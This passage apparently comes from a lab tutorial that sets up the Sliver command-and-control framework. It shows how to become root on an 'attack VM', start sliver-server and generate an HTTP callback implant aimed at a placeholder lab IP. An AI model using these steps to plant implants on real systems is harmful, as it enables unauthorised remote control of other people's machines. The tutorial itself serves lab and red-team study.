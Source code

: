 And we're good to go for the 2nd part :) 

# Part 2

## Generate our C2 payload & Uploading it


To generate our payload, from our Ubuntu attack VM we drop into superuser shell. And go into our sliver directory: 

```
sudo su
cd /opt/sliver
```

Launching the sliver server: 

```
sliver-server
```

![Pasted image 20240816134947](attachments/Pasted%20image%2020240816134947.png)

Now we can generate C2 session payload with the following command: 

```
generate --http [LinuxVM IP] --save /opt/sliver 
```

![Pasted image 20240816135406](attachments/Pasted%20image%2020240816135406.png)
